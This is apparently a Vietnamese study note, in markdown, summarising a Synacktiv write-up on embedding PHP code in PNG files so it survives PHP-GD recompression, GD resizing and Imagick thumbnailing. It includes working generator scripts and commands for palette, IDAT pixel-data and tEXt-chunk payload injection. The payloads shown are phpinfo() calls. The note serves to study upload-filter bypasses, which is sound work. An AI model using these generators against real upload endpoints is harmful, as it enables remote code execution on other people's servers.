



## Reference
https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there


## 1.   Cấu trúc file ảnh
```
anh.png
│
├── PNG Signature       8 bytes
│
├── IHDR Chunk
│   ├── Length          4 bytes
│   ├── Type            4 bytes
│   ├── Data            13 bytes
│   └── CRC             4 bytes
│
├── Ancillary Chunks    (Không bắt buộc)
│   ├── tEXt
│   ├── zTXt
│   ├── iTXt
│   └── eXIf
│
├── IDAT Chunk(s)
│   ├── Length
│   ├── Type
│   ├── Data            Dữ liệu ảnh nén
│   └── CRC
│
└── IEND Chunk
    ├── Length          4 bytes (giá trị 0)
    ├── Type            4 bytes
    ├── CRC             4 bytes
    └── EOF
```


## 1. đẩy payload vào comment
Câu lệnh:
```
$ exiftool -comment="<?php phpinfo(); ?>" nasa.png
```


Nội dung:
```
$ xxd nasa.png
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 0100 0000 0100 0802 0000 00d3 103f  ...............?
[...]
00000150: 4800 0000 011f 52f7 3400 0000 1b74 4558  H.....R.4....tEX
00000160: 7443 6f6d 6d65 6e74 003c 3f70 6870 2070  tComment.<?php p
00000170: 6870 696e 666f 2829 3b20 3f3e b630 4e85  hpinfo(); ?>.0N.
00000180: 0000 8000 4944 4154 78da ecfd 6794 64e7  ....IDATx...g.d.
[...]
```

## 2.Defeating PHP-GD image compression
**PHP-GD**: là thư viện

Kịch bản: Target sử dụng [imagepng](https://www.php.net/manual/en/function.imagepng.php) để render lại ảnh rồi mới lưu. 
```php
[...]
if ($form->isSubmitted() && $form->isValid()) {

    # Get the file uploaded through the form
    $suitFile = $form->get('suit')->getData();

    # Build a unique filename from the original filename
    $originalFilename = $suitFile->getClientOriginalName();
    $newFilename = uniqid().'_'.$originalFilename;
    try {
       # Compress the uploaded PNG (level 9 of the zlib library) and save it
       $source = imagecreatefrompng($suitFile->getPathName());
       imagepng($source, $this->getParameter('thumbnails_directory').'/'.
		    $newFilename, 9);
       $suit->setSuitFilename($newFilename);
    } catch (FileException $e) {
       return new Response("Exception in image processing");
    }
[...]

```
**PLTE chunk**:
- PNG gồm gồm `ancillary chunks` (that are not required to form a valid PNG) and `critical chunks` (that are essential in a PNG file).[Chi tiết](https://www.libpng.org/pub/png/spec/1.2/PNG-Chunks.html#C.Summary-of-standard-chunks)


- Các hàm tạo image(**`imagecreatefrompng`** , **`imagecreatefromstring`**) trong RAM thường sẽ chỉ đọc `critical chunks` để dựng lại ảnh ở trong RAM . Do đó chúng ta có thể chèn payload  vào trong `critical chunks`
    - `IHDR` (Image Header) – Khối thông tin ảnh , gồm 13 byte 
    - `PLTE` (Palette) – Bảng màu (chỉ với ảnh Indexed-color)
    - `tRNS` (Transparency) – Thông tin trong suốt
    - `IDAT` (Image Data) – Dữ liệu ảnh thực tế , một image có thể có một hoặc nhiều chunked `IDAT` 
    - `IEND` (Image End) – Khối kết thúc
- Ưu tiên: Chèn payload vào trong `PLTE` (Palette)
    - The PLTE chunk contains from 1 to 256 palette entries, each a three-byte series of the form:
    ```
    Red:   1 byte (0 = black, 255 = red)
    Green: 1 byte (0 = black, 255 = green)
    Blue:  1 byte (0 = black, 255 = blue)
    ```
    - Một chunked thỏa mãn là chunked length chia hết cho 3. Chúng ta có `256*3` bytes available

**payloads/generators/generate_plte_png.php**
```php
<?php
    
if(count($argv) != 3) exit("Usage $argv[0] <PHP payload> <Output file>");
    
$_payload = $argv[1];
$output = $argv[2];
    
while (strlen($_payload) % 3 != 0) { $_payload.=" "; }

$_pay_len=strlen($_payload);
if ($_pay_len > 256*3){
    echo "FATAL: The payload is too long. Exiting...";
    exit();
}
if($_pay_len %3 != 0){
    echo "FATAL: The payload isn't divisible by 3. Exiting...";
    exit();
}

$width=$_pay_len/3;
$height=20;
$im = imagecreate($width, $height);
    
$_hex=unpack('H*',$_payload);
$_chunks=str_split($_hex[1], 6);
    
for($i=0; $i < count($_chunks); $i++){
    $_color_chunks=str_split($_chunks[$i], 2);
    $color=imagecolorallocate($im, hexdec($_color_chunks[0]), hexdec($_color_chunks[1]),hexdec($_color_chunks[2]));
    imagesetpixel($im,$i,1,$color);
}
    
imagepng($im,$output);

```
Thực thi: `$ php gen.php '<?php phpinfo(); ?>' nasa.php`


## 3. Defeating PHP-GD image resizing
Target sử dụng các hàm như  **`imagecopyresized()`** và **`imagecopyresampled()`** trong PHP (thuộc thư viện GD) đều dùng để sao chép một vùng hình chữ nhật (hoặc toàn bộ ảnh) từ ảnh nguồn sang ảnh đích, đồng thời thay đổi kích thước (resize/scale) của vùng ảnh đó.Với mục đích là làm sạch   các metadata đươc chèn vào.

```php
[...]
if ($form->isSubmitted() && $form->isValid()) {
            
     # Get the file uploaded through the form
     $suitFile = $form->get('suit')->getData();

     # Build a unique filename from original filename
     $originalFilename = $suitFile->getClientOriginalName();
     $newFilename = uniqid().'_'.$originalFilename;
            
    try {
       # Compress the uploaded PNG (level 9 of the zlib library),
	 # resize it and save it
       $filename = $suitFile->getPathName();
       list($width, $height) = getimagesize($filename);
       $source = imagecreatefrompng($filename);
       $thumb = imagecreatetruecolor(55, 55);
       imagecopyresampled($thumb, $source, 0, 0, 0, 0, 55, 55, $width, $height);
       imagepng($thumb, $this->getParameter('thumbnails_directory').'/'.$newFilename);
       $suit->setSuitFilename($newFilename);
    } catch (FileException $e) {
       return new Response("Exception in image processing");
    }
[...]
```
Việc resize kích thước của 1 file thì phần `the pixel data` sẽ không bị thay đổi do muốn chèn payload thì chỉ có thể chèn vào `the pixel data` mà phần này là thuộc `IDAT` chunk.

Đọc 2 bài báo sau để xem cách lam ví phức tạp [bài 1](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/) và [bài 2](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

**payloads/generators/generate_idat_png.php**
```php
<?php
 
header('Content-Type: image/png');
 
$p = array(0xA3, 0x9F, 0x67, 0xF7, 0x0E, 0x93, 0x1B, 0x23, 0xBE, 0x2C, 0x8A, 0xD0, 0x80, 0xF9, 0xE1, 0xAE, 0x22, 0xF6, 0xD9, 0x43, 0x5D, 0xFB, 0xAE, 0xCC, 0x5A, 0x01, 0xDC, 0xAA, 0x52, 0xD0, 0xB6, 0xEE, 0xBB, 0x3A, 0xCF, 0x93, 0xCE, 0xD2, 0x88, 0xFC, 0x69, 0xD0, 0x2B, 0xB9, 0xB0, 0xFB, 0xBB, 0x79, 0xFC, 0xED, 0x22, 0x38, 0x49, 0xD3, 0x51, 0xB7, 0x3F, 0x02, 0xC2, 0x20, 0xD8, 0xD9, 0x3C, 0x67, 0xF4, 0x50, 0x67, 0xF4, 0x50, 0xA3, 0x9F, 0x67, 0xA5, 0xBE, 0x5F, 0x76, 0x74, 0x5A, 0x4C, 0xA1, 0x3F, 0x7A, 0xBF, 0x30, 0x6B, 0x88, 0x2D, 0x60, 0x65, 0x7D, 0x52, 0x9D, 0xAD, 0x88, 0xA1, 0x66, 0x94, 0xA1, 0x27, 0x56, 0xEC, 0xFE, 0xAF, 0x57, 0x57, 0xEB, 0x2E, 0x20, 0xA3, 0xAE, 0x58, 0x80, 0xA7, 0x0C, 0x10, 0x55, 0xCF, 0x09, 0x5C, 0x10, 0x40, 0x8A, 0xB9, 0x39, 0xB3, 0xC8, 0xCD, 0x64, 0x45, 0x3C, 0x49, 0x3E, 0xAD, 0x3F, 0x33, 0x56, 0x1F, 0x19 );
 
$img = imagecreatetruecolor(110, 110);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
$r = $p[$y];
$g = $p[$y+1];
$b = $p[$y+2];
$color = imagecolorallocate($img, $r, $g, $b);
imagesetpixel($img, round($y / 3)*2, 0, $color);
imagesetpixel($img, round($y / 3)*2+1, 0, $color);
imagesetpixel($img, round($y / 3)*2, 1, $color);
imagesetpixel($img, round($y / 3)*2+1, 1, $color);
}
 
imagepng($img);
?>
```
command: `$ php generate_idat_png.php > nasa.php`

## 4. Defeating Imagick image resizing
thư viện: **Imagick**

method sử dụng: `thumbnailImage` or `resizeImage`.

`TEXT chunk`: lưu trữ thông tin dạng text nó thuộc `ancillary chunks` , trường `comment` của ảnh của thuộc chunk này.

Thư viện **Imagick** resizes an image, it will actually perform several actions on tEXt chunks:
- xóa trường comment
- overide giá trị của `date:create, date:modify, software, Thumb::Document::Pages, Thumb::Image::Height, Thumb::Image::Width, Thumb::Mimetype, Thumb::MTime, Thumb::Size, Thumb::URI.`
- giữ các giá trị còn lại của các trường trong TEXT CHUNKED

Khai thác: Đơn giản là tạo 1 trường không thuộc các trường đã nói trên vào TEXT CHUNKED.

```php
<?php

if(count($argv) != 4) exit("Usage $argv[0] <Input file> <PHP payload> <Output file>");

$input = $argv[1];
$_payload = $argv[2];
$output = $argv[3];

$imgck = new Imagick($input);
$imgck->setImageProperty("Synacktiv", $_payload);
$imgck->writeImage($output);

?>

```

command: `$ php gen_tEXt.php 'nasa.png' '<?php phpinfo(); ?>' ‘nasa.php’`

## Tổng kết
